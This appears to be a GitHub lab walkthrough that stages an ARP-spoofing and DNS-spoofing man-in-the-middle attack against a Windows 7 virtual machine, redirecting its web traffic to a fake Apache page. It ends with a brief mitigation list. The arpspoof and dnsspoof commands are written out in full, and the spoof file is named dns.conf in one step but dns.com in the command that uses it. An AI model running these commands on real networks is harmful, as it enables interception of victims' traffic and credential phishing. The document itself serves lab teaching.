 # DNS-Spoofing-Attack-Walkthrough

 📌 Introduction
This project demonstrates a **Man-in-the-Middle (MITM) attack using ARP spoofing and DNS spoofing** on a local network.  
The attacker (Kali Linux) poisons the ARP cache of both the **victim (Windows 7)** and the **gateway (router)**, intercepts DNS requests, and redirects them to a fake website hosted on the attacker machine using **Apache2**.  

⚠️ **Disclaimer**: This project is for **educational purposes only** in a controlled lab environment. Do not attempt on real networks.  

---

## 🖥️ Lab Setup
- **Attacker**: Kali Linux  
- **Victim**: Windows 7  
- **Gateway/Router** 
- **Network**: VMware/VirtualBox Host-only or NAT  

---

## ⚙️ Steps

### 1. Enable IP Forwarding

echo 1 > /proc/sys/net/ipv4/ip_forward

This allows Kali to forward traffic between victim and gateway.

---

2. ARP Spoofing

Poison victim’s ARP table (tell victim that attacker = router):

arpspoof -i eth0 -t 192.168.152.8 192.168.152.2


Poison router’s ARP table (tell router that attacker = victim):

arpspoof -i eth0 -t 192.168.152.2 192.168.152.50

---

3. Set Up Fake Website

Start Apache2 web server:

service apache2 start


Place your fake page inside:

/var/www/html/index.html

---

4. Create DNS Spoof File

Create dns.conf file in your home directory:

192.168.152.50    *


This redirects all DNS requests to attacker’s IP.

5. Run DNS Spoof
   
dnsspoof -i eth0 -f dns.com


📸 Example Output:

dnsspoof: listening on eth0 [udp dst port 53 and not src 192.168.152.50]

---

6. Victim Browsing

When the victim (Win7) visits any website, DNS request is spoofed → redirected to attacker’s web server.

---

📝 Results

Victim’s traffic successfully redirected.

Attacker controls DNS resolution.

Fake webpage displayed to victim.

---

🔒 Mitigation

Use HTTPS with DNSSEC

Enable static ARP entries

Use IDS/IPS tools like Snort

Avoid untrusted networks

---

📷 Screenshots

